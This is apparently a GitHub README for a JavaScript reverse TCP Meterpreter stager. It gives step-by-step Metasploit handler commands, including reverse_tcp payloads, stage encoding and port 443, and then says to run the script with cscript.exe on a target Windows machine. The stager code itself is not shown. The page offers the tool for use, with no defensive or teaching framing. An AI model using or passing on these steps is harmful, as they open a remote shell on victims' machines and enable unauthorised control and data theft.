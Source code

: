 ```
     ____. _________   _____          __                
    |    |/   _____/  /     \   _____/  |_  ___________ 
    |    |\_____  \  /  \ /  \_/ __ \   __\/ __ \_  __ \
/\__|    |/        \/    Y    \  ___/|  | \  ___/|  | \/
\________/_______  /\____|__  /\___  >__|  \___  >__|   
                 \/         \/     \/          \/       
```
### JavaScript Reversed TCP Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within JavaScript using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

This Stager should run on x86 as well as x64

```
Usage:
Change RHOST and RPORT settings to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp <- When run from x64 version of cscript.exe
set PAYLOAD windows/meterpreter/reverse_tcp <- When run from x86 version of cscript.exe
set LHOST 0.0.0.0
set LPORT 443
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j 

Then run: cscript.exe JSMeter.js on Target
```
